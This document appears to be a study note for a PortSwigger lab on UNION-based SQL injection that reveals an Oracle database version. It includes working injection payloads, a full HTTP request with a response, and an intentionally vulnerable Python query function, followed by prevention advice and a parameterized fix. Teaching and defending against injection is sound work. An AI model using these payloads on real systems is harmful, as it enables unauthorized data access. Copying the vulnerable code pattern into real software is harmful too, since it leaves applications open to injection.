

## Querying Database Type and Version

In the context of SQL Injection, one of the key steps is to determine the type and version of the database being used. This information can help attackers tailor their attacks to specific vulnerabilities associated with particular database versions.

### Oracle Database Version Query

For Oracle databases, the query to retrieve the database version is:

```sql
SELECT * FROM v$version;
```

This query returns detailed information about the Oracle database version, including the release number, build date, and platform.

### Example Scenario

Consider a web application that uses an SQL query to fetch data from a database. An attacker wants to determine the database version to tailor subsequent attacks. The application might have a query like:

```sql
SELECT * FROM products WHERE id = 'input_id';
```

The attacker can inject a UNION-based SQL Injection attack to retrieve the database version. Here’s how it can be done:

1. **Identify the Number of Columns**: First, the attacker needs to identify the number of columns in the original query. This can be done by injecting a payload that causes an error, such as:

   ```plaintext
   ' ORDER BY 1--
   ```

   If this results in an error, the attacker knows the original query has at least one column. They can incrementally increase the number until no error is returned.

2. **Inject the Payload**: Once the number of columns is known, the attacker can inject the payload to retrieve the database version. For example, if the original query has two columns, the injected payload might look like:

   ```plaintext
   ' UNION SELECT banner, NULL FROM v$version--
   ```

   This payload appends a new query to the original one, selecting the `banner` column from the `v$version` view and padding with `NULL` to match the number of columns.

### Full Example

Let’s walk through a complete example of how this would work in practice.

#### Original Query

```sql
SELECT * FROM products WHERE id = 'input_id';
```

#### Injected Payload

```plaintext
' UNION SELECT banner, NULL FROM v$version--
```

#### Complete Request

```http
GET /products?id=' UNION SELECT banner, NULL FROM v$version-- HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Accept: */*
```

#### Response

```http
HTTP/1.1 200 OK
Date: Mon, 23 Jan 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
<title>Products</title>
</head>
<body>
<h1>Products</h1>
<table>
<tr><th>Banner</th><th></th></tr>
<tr><td>Oracle Database 11g Express Edition Release 11.2.0.2.0 - Production</td><td></td></tr>
</table>
</body>
</html>
```

### Mermaid Diagram

A mermaid diagram can help visualize the flow of the SQL Injection attack:



### How to Prevent / Defend

#### Detection

To detect SQL Injection attacks, organizations can use various tools and techniques:

1. **Web Application Firewalls (WAF)**: WAFs can inspect incoming traffic and block suspicious patterns indicative of SQL Injection attempts.

2. **Logging and Monitoring**: Implement logging and monitoring to detect unusual activity, such as frequent errors or unexpected database queries.

3. **Automated Scanning Tools**: Use tools like Burp Suite, SQLMap, and OWASP ZAP to scan for SQL Injection vulnerabilities.

#### Prevention

1. **Use Parameterized Queries**: Always use parameterized queries to ensure that user input is treated as data rather than executable code.

2. **Input Validation**: Validate all user inputs to ensure they conform to expected formats and ranges.

3. **Least Privilege Principle**: Ensure that the database user account used by the application has the minimum necessary permissions to perform its tasks.

4. **Regular Security Audits**: Conduct regular security audits and penetration testing to identify and mitigate SQL Injection vulnerabilities.

### Secure Coding Fix

Here is an example of a vulnerable and a secure version of a function that retrieves product information:

#### Vulnerable Code

```python
import sqlite3

def get_product(id):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    query = f"SELECT * FROM products WHERE id = {id}"
    cursor.execute(query)
    result = cursor.fetchone()
    conn.close()
    return result
```

#### Secure Code

```python
import sqlite3

def get_product(id):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    query = "SELECT * FROM products WHERE id = ?"
    cursor.execute(query, (id,))
    result = cursor.fetchone()
    conn.close()
    return result
```

### Practice Labs

For hands-on experience with SQL Injection attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs covering various aspects of web security, including SQL Injection.
- **OWASP Juice Shop**: A deliberately insecure web application designed for security training purposes.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.
- **WebGoat**: An interactive, gamified training application for learning about web application security.

By thoroughly understanding the mechanics of SQL Injection and implementing robust security measures, developers can significantly reduce the risk of such attacks compromising their applications.

---
<!-- nav -->
[[03-Implementing SQL Injection Exploits|Implementing SQL Injection Exploits]] | [[Web Security (PortSwigger)/02-SQL Injection/08-Lab 7 SQL injection attack querying the database type and version on Oracle/00-Overview|Overview]] | [[Web Security (PortSwigger)/02-SQL Injection/08-Lab 7 SQL injection attack querying the database type and version on Oracle/05-Practice Questions & Answers|Practice Questions & Answers]]
